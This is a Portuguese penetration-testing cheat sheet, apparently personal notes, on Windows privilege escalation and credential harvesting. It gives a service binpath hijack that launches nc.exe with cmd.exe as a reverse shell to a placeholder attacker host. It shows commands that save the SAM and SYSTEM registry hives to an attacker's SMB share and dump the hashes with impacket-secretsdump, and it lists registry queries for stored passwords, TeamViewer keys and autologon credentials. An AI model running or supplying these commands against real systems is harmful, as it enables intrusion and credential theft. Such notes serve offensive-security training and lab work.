 ## Binary planting

```
sc config [service_name] binpath= "C:\temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```

Uma vez obtido system na máquina, é possível extrair a SAM da seguinte maneira:

por meio dos registros:

Na máquina vítima

```
reg save HKLM\SAM \\10.10.14.11\smb\sam
reg save HKLM\SYSTEM \\10.10.14.11\smb\system
```

Na máquina atacante:

```
impacket-secretsdump -sam sam -system system local
```

Acessando diretamente a o hard drive da máquina:

```
sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd

cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
impacket-secretsdump -sam SAM -system SYSTEM local
```

ou até mesmo fazendo o port forwarding

## Credenciais no registro

```
reg query HKLM /f *password* /t REG_SZ /s

reg query HKLM /f teamviewer /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s
```

### Autologon

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword   
```
